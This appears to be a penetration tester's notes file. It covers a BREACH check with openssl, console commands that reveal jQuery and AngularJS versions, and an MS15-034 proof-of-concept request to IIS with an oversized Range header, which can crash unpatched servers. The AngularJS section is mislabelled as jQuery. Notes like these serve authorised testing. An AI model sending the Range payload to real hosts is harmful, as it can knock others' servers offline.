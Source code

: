 # BREACH Vulnerability indicator


Not 100% foolproof, but a good indicator:

Run:

```openssl s_client -connect TARGET-URL-HERE:PORT-NUMBER-HERE.```

Enter:


```
GET / HTTP/1.1
Host: TARGET-URL-HERE
Accept-Encoding: compress, gzip

```

If the response is encoded, that's potentially evidence that it is present.


# JQuery

To quickly display the version of JQuery in use - enter this into the browser inspect-elements console [FIREFOX].



```jQuery().jquery```



Alternatively, you can use:



```alert(jQuery.fn.jquery);```


# AngularJS

To quickly display the version of JQuery in use - enter this into the browser inspect-elements console [FIREFOX].



```angular.version.full```



Alternatively, you can use:



```alert(angular.version.full)```


# MS15-034 POC

POC from: https://isc.sans.edu/forums/diary/MS15034+HTTPsys+IIS+DoS+And+Possible+Remote+Code+Execution+PATCH+NOW/19583

```
GET / HTTP/1.1
Host: HOSTNAMEHERE
Range: bytes=0-18446744073709551615
```
